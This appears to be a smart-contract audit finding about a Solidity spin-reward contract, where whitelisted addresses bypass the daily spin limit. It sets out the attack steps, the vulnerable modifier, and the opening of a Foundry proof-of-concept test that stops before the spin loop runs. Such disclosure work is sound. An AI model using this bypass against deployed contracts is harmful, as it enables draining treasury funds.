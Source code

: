 ### Attack Vector
1. **Whitelist Status**: Attacker obtains whitelist status (through admin action or compromise)
2. **Unlimited Spins**: `canSpin` modifier allows unlimited daily spins
3. **Reward Accumulation**: Each spin grants rewards (PP, potential ETH payouts)
4. **Fee Collection**: Contract collects spin fees on every spin
5. **Treasury Drain**: Repeated spins can drain treasury through repeated jackpot spins (e.g., rng = 0) OR by draining fee pool over time
6. **Economic Bypass**: Core daily limit security mechanism completely defeated

### Vulnerable Code Path
```solidity
function startSpin() external payable canSpin nonReentrant whenNotPaused {
    // ❌ canSpin allows unlimited calls for whitelisted addresses
    require(msg.value == spinPrice, "Incorrect spin price");
    
    // Spin logic executes unlimited times per day for whitelisted users
    userSpinCounts[msg.sender][getCurrentDay()]++; // Counter-bypass confirmed
    // ... rest of spin logic
}

modifier canSpin() {
    if (whitelists[msg.sender]) {
        _; // ❌ Executes function without any daily limit checks
        return;
    }
    // Daily limit validation only for non-whitelisted users
}
```

## Proof of Concept

### Prerequisites
- Treasury funded with sufficient ETH for payouts
- Attacker has whitelist status
- Tested on commit hash: 9c4e8d1 (Solidity 0.8.25)

The PoC demonstrates unlimited daily spins bypassing the intended daily limit:

```solidity
function testPoCCriticalSpinWhitelistBypass() public {
    vm.warp(1704067200); // Set to specific day
    vm.startPrank(attacker);

    // 1. Setup: Attacker is whitelisted (root cause)
    spin.setCampaignStartDate(block.timestamp);
    spin.setEnableSpin(true);
    spin.whitelist(attacker); // ❌ Enables unlimited daily spins
    
    // 2. Mock VRF oracle for consistent results
    vm.mockCall(
        attacker,
        abi.encodeWithSignature("generateRequest(string,uint8,uint256,uint256,address)"),
        abi.encode(uint256(42))
    );

    uint256 price = spin.spinPrice(); // 2 ETH per spin
    uint256 spinsToExecute = 20; // Far exceeds normal daily limit
    
    // 3. Pre-exploit state
    uint256 preBalance = address(spin).balance;
    (, , , , , uint256 prePP, ) = spin.getUserData(attacker);
    
    // 4. Execute unlimited spins in same day
```